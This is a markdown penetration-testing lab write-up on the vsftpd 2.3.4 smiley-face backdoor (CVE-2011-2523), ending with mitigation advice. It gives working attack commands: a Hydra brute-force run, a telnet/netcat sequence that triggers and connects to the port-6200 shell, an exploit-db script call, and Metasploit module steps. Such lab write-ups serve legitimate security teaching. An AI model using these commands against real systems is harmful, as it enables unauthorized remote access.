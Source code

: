 # vsftpd 2.3.4

## Introduction

- vsftpd is an `FTP server` for Unix-like systems, including Linux
- Port: 21 which is the default FTP port.

## Anonymous Login

- There could be some files or directories that are publicly accessible through anonymous users that can leak sensitive data.
- We can FTP login with anonymous user. However, no files, directories or directory traversal found. We also do not have access to write or upload any file.

## Bruteforcing via Hydra

- Default and weak passwords are vulnerable to bruteforce attacks leading to unauthorized access of FTP shares.
- Trying to bruteforce using common usernames and password lists:
	- `hydra 172.16.242.129 ftp -L /usr/share/seclists/Usernames/Names/names.txt -P /usr/share/wordlists/rockyou.txt -t 50`
		- ftp: Specifies the protocol to attack, in this case, FTP.
		- -L : Specifies the path to a file containing a list of usernames to try during the attack.
		- -P : Specifies the path to a file containing a list of passwords to attempt.
		- -t 50: Sets the number of parallel connections (threads) to use for the attack. It is not generally recommanded to use these large number of threads as they can trigger security mechanisms on the target but since this is on our local machine, 50 threads are fine.
- However, bruteforcing lead to no correct credentials that can be used to login via FTP.

## Searchsploit

- SearchSploit is a command-line search tool for Exploit-DB that allows you to take a copy of the Exploit Database with you.
- `searchsploit vsftpd 2.3.4`
	
	![searchsploit results](../../images/vsftpd_2.3.4.jpeg)

- SearchSploit reveals that there is `Backdoor Command Execution` vulnerability present in vsftpd 2.3.4 version of FTP.

### vsftpd 2.3.4 - Backdoor Command Execution - Smiley [:)] Face backdoor (CVE: 2011-2523)

- The version of vsftpd running on the remote host has been compiled with a backdoor. Attempting to login with a `username containing :)` (a smiley face) triggers the backdoor, which results in a shell listening on TCP `port 6200`. The shell stops listening after a client connects to and disconnects from it. [ Source: https://www.tenable.com/plugins/nessus/55523]
- The source code of this version of vsftpd was modified either through access of distributing website or the distributing server.

- We can see in the if the bytes of the input match `0x3a` [":" from HEX] and `0x29` [")" from HEX], the `vsf_sysutil_extra()` function will get executed.

[backdoor code](https://static.packt-cdn.com/products/9781786463166/graphics/image_01_017.jpg)

- The `vsf_sysutil_extra()` function contains the following code. We can clearly see that it attempts to open port 6200 through `htons(6200)` and provides a shell with `execl("/bin/sh")` so that attacker can interact with the system.

![backdoor code](https://static.packt-cdn.com/products/9781786463166/graphics/image_01_018.jpg)

#### Impact Analysis

- Since this vulnerability starts a backdoor, it gives Remote Code Execution [RCE] and full access of the system as the user that was used to configure the vsftpd service on the system.
- The attacker can easily pretend to be the original user and modify/harm the system files.
- Therefore, the impact level of this vulnerability is high.

#### Proof of Concept

- This vulnerability can be exploited either through Metasploit or manually through an automated script or command line.

- Command Line Exploitation:
	- Connect to FTP using telent or netcat:
		- `telnet 172.16.242.129 21`
		- `USER user_name:)`  # username doesn't matter as long as it contains smiley face [:)]
		- `PASS any_password` # password doesn't matter
		- This should've opened port `6200` on the host machine that runs the backdoor.

		![backdoor command injection](../../images/backdoor_command_inject_vsftpd_1.jpeg)

	- Use telent or netcat to connect on `6200` port backdoor:
		- `nc 172.16.242.129 6200`
		- `id` # verify Connection

		![backdoor command injection](../../images/backdoor_command_inject_vsftpd_2.jpeg)

- Automated Script Exploitation:
	- Script can be downloaded from exploit-db [https://www.exploit-db.com/exploits/49757] or copied from searchsploit tool.
	- Usage:
		- `python3 49757.py <IP_ADDRESS>`

- Metsploit Exploitation:
	- We can use the `exploit/unix/ftp/vsftpd_234_backdoor` exploit from metasploit and gain access through backdoor easily.
		- `use exploit/unix/ftp/vsftpd_234_backdoor` 
	- We can see what all parameters we need to set in order to exploit the machine using:
		- `show options` 

		![backdoor command injection](../../images/backdoor_command_inject_vsftpd_msf_1.jpeg)

	- Set target(s) (RHOSTS):
		- `set RHOSTS <IP_ADDRESS>`
	- Execute the attack using run or exploit command:
		- `exploit`

		![backdoor command injection](../../images/backdoor_command_inject_vsftpd_msf_3.jpeg)


#### Patches and Updates:

- The developers of vsftpd responded to this vulnerability and released newer versions of the software with security patches and fixes.
- All users were advised to update to the latest version as soon as possible to protect their servers from exploitation.

#### Mitigation

- Software Integrity and Authenticity Checks using CheckSums and digital signatures.
- Regular updates and stronger credentials.
- Setting up services as non-root user in a sandbox or isolated environment.

## References

- https://www.tenable.com/plugins/nessus/55523
- https://subscription.packtpub.com/book/security/9781786463166/1/ch01lvl1sec18/vulnerability-analysis-of-vsftpd-2-3-4-backdoor
- https://www.exploit-db.com/exploits/49757

## Conclusion

- The examination of the vsftpd 2.3.4 backdoor vulnerability underscores the critical importance of maintaining robust security practices. 
- This vulnerability illustrates how seemingly minor oversights can lead to significant security breaches, enabling unauthorized remote code execution.
- Effective mitigation involves regular updates, stringent software integrity checks, and operating services with minimal privileges.
- This case study highlights the necessity for continuous vigilance and proactive security measures to protect against sophisticated cyber threats.